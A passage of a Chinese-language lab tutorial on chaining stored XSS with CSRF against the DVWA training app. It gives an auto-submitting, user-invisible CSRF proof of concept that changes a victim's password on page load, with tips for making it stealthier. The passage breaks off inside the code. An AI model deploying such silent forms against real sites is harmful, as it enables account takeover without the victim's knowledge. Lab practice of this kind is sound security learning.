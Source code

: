 # XSS+CSRF组合打法


XSS+CSRF组合打法



# XSS+CSRF组合打法

看了一位大佬的复现笔记，自己也做了一下。

靶场平台是DVWA，服务器都是挂在本地。

这种攻击手法需要在Security Level为low的等级下进行

## 存储型 XSS + CSRF

### 1.构造poc

#### 首先构造CSRF代码

使用CSRFTester工具生成 POC，比使用 BurpSuite 生成的 POC 更加隐蔽，受害者打开该 POC 后，浏览器会自动执行代码随后跳转到正常页面，中途不需要用户交互，也不用像 BurpSuite 生成的 POC 那样还需要受害者手动点击按钮。

使用CSRFTester抓取流量有几个要点：

- 浏览器代理端口为8008
- CSRFTester会屏蔽127.0.0.1的流量，建议在hosts文件里添加规则`127.0.0.1  www.test.com`

打开 DVWA 的 CSRF 模块，开启CSRFTester的流量记录功能，输入密码后，点击change

![image-20230513192530675](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230513192530675.png)

![image-20230513192440010](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230513192440010.png)

之后 CSRFTester 就会抓取到修改密码的数据包，在 Form Parameters 中将左侧 Query Parameters 数据修改复制即可

> 值得注意的是 Display in Browers 选项是默认勾选的，这里建议根据自己情况而定。因为这个工具自动生成的代码在我这边是需要手动修改才能利用的，所以我这边选择取消勾选。

![image-20230513192759865](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230513192759865.png)

之后点击 Generate HTML，选择保存的位置后，手动进行修改即可，当然如果工具生成的代码可以正常使用，就不需要修改了。

对于代码的修改，我主要是将 head、H2标题的内容删除了，以增加隐蔽性。**同时增加了倒数第 4 行的代码，因为没有这一句，这个 POC 是不能正常使用的**，最后修改后的 CSRF POC 代码如下。

```
<html>
<body onload="javascript:fireForms()">
<script language="JavaScript">
var pauses = new Array( "42" );
function pausecomp(millis){
    var date = new Date();
    var curDate = null;
    do { curDate = new Date(); }
    while(curDate-date < millis);}
function fireForms(){
    var count = 1;
    var i=0;
    for(i=0; i<count; i++){
        document.forms[i].submit();
        pausecomp(pauses[i]);}}
</script>
<form method="GET" name="form0" action="http://192.168.38.132:80/dvwa/vulnerabilities/csrf/?password_new=12345678&password_conf=12345678&Change=Change">
<input type="hidden" name="password_new" value="123123"/>
<input type="hidden" name="password_conf" value="123123"/>
```